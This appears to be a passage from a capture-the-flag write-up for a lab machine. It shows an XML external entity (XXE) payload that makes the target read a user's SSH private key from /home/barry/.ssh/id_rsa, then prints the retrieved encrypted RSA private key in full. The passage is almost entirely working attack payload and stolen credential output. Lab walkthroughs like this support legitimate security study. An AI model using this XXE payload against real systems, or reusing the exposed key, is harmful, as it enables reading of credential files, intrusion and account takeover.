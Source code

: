 XXE to retrieve ssh key
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>   
```

viewing src:XXE

![src:XXE](mustacchio6.png)
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
```